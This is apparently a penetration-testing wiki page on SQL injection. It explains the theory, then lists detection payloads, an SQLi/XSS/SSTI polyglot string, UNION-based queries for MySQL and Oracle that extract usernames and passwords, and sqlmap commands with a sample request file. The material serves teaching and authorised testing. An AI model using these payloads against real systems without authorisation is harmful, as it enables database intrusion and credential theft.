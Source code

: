 # SQL injection

## Theory

Many web applications use one or multiple databases to manage data. In order to dynamically edit the database while users browse the website, some SQL queries can rely on input vectors. When input parameters used in those queries are insufficiently validated or sanitized, these web apps can be vulnerable to SQL injections.

SQL injection attacks can allow attackers to read, update, insert or delete database data by injecting a piece of SQL query through the input vector, hence affecting the intended execution of the original query. In some cases, these attacks can also lead to File Download, File Upload or even Remote Code Execution.

## Practice

Testers need to identify input vectors (parts of the app that accept content from the users) that could be used for database operations. For each identified vector, testers need to check if malicious strings and values successfully exploit any vulnerability.

### Vulnerable input recon

Using special SQL characters (`'`, `"`, `#`, `;`, `)`, `*`,`%`) in an input could lead to SQL errors sometimes echoed back to the users for debugging. This would indicate an entry point not sanitized enough and thus potentially vulnerable to SQL injection.

> [!TIP]
> For every payload do not forget to try url encoding or others.

### Manual testing

With `some.website/?parameter=value` some basic useful payload to detect vulnerable inputs are:

```
parameter=1
parameter=1'
parameter=1"
parameter=[1]
parameter[]=1
parameter=1`
parameter=1\
parameter=1/**/
parameter=1/*!111'*/
parameter=1' or '1'='1
parameter=1 or 1=1
parameter=' or ''='
parameter=' OR 1 -- -
parameter=1' or 1=1 --
parameter=1' or 1=1 -- -
parameter=1' or 1=1 /*
parameter='='
```

> [!WARNING]
> GET parameters are not the only ones that could be vulnerable to SQLi. Testers should thoroughly test all user inputs (parameters, user-agents, cookies...)

The following payload is used for testing SQL injections, [XSS (Cross-Site Scripting)](xss.md) and [SSTI (Server-Side Template Injection)](ssti.md).

```
'"<svg/onload=prompt(5);>{{7*7}}
```

#### Extracting information with UNION

::: tabs

=== MySQL

1\. Finding number of columns:

```sql
' ORDER BY 2 -- # iterate until error to find number of columns
```

2\. Extract database information:

```sql
' UNION SELECT @@version, NULL -- # Inserting null depending on number of columns
```

3\. Find tables name:

```sql
' UNION SELECT NULL,concat(COLUMN_NAME) from information_schema.columns where table_name='users' --
```

4\. Retrieve information from table:

```sql
' UNION SELECT username,password from users --
```


=== Oracle

1\. Finding number of columns:

```sql
' ORDER BY 2 -- # iterate until error to find number of columns
```

2\. Extract database information:

```sql
' UNION SELECT banner,NULL from v$version --
```

3\. Find tables name:

```sql
' UNION SELECT table_name,NULL from all_tables --
```

4\. Retrieve information from table:

```sql
' UNION SELECT username,password from users --
```

:::


### Automated tests

Tools like [SQLmap](https://github.com/sqlmapproject/sqlmap) (Python) or [SQLninja](https://github.com/xxgrunge/sqlninja) (Perl) can also be used to fuzz input vectors, find vulnerable entry points and automatically exploit them.

> [!CAUTION]
> Just like any fuzzing tool, these scans need to be slowed down when testing production instances as it could lead to an unintended denial of service. In addition to that, testers need to use those tools with the greatest care since creating issues with production instances databases (like overwriting or deleting data) could have a serious fallout.

```bash
sqlmap --user-agent "PENTEST" --url $URL -p target_parameter --all
```

It is also possible to load request files and let SQLmap do the heavy work of fuzzing every parameter and input vector.

```bash
sqlmap -r $REQUEST_FILE --level 2 -v 2 --all
```

The request file should look like a standard HTTP request (line, headers, empty line, optional data). It can be obtained by many ways like inspecting network operations in a browser, intercepting requests with a proxy (like Burp Suite), and so on.

```http
POST /login.php HTTP/1.1
Host: www.target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,fr;q=0.5,fr-FR;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Cookie: JSESSIONID=F168EA13C46D14AA134E13D4;
Connection: keep-alive
Upgrade-Insecure-Requests: 1

username=testusername&password=testpassword
```

## Resources

[https://www.asafety.fr/mysql-injection-cheat-sheet/](https://www.asafety.fr/mysql-injection-cheat-sheet/)

[https://owasp.org/www-community/attacks/SQL_Injection](https://owasp.org/www-community/attacks/SQL_Injection)

[https://portswigger.net/web-security/sql-injection](https://portswigger.net/web-security/sql-injection)

[http://pentestmonkey.net/category/cheat-sheet/sql-injection](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
SQL injection cheatsheets (MSSQL, MySQL, Oracle SQL, Postgres SQL, ...)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[https://portswigger.net/kb/issues/00100210_sql-injection-second-order](https://portswigger.net/kb/issues/00100210_sql-injection-second-order)

[https://github.com/Hakumarachi/Loose-Compare-Tables](https://github.com/Hakumarachi/Loose-Compare-Tables)
